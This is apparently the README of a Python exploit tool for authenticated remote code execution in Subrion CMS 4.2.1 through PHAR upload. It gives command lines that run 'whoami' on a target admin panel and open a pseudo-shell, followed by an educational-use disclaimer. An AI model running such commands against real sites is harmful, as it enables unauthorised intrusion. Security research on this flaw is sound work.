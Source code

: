 # Project Title

Subrion 4.2.1 PHAR File Upload Authenticated Remote Code Execution (RCE)

## Description

A python3 script for Subrion 4.2.1 PHAR File Upload Authenticated Remote Code Execution (RCE)

## Getting Started

### Executing program

* RCE
```
python3 subrion_4.2.1.py -t http://subrionrce.com/subrion/panel/ -u admin -p password -rce whoami
```
* Pseudo-shell
```
python3 subrion_4.2.1.py -t http://subrionrce.com/subrion/panel/ -u admin -p password -shell
```

## Help

For help menu:
```
python3 subrion_4.2.1.py -h
```

## Disclaimer
All the code provided on this repository is for educational/research purposes only. Any actions and/or activities related to the material contained within this repository is solely your responsibility. The misuse of the code in this repository can result in criminal charges brought against the persons in question. Author will not be held responsible in the event any criminal charges be brought against any individuals misusing the code in this repository to break the law.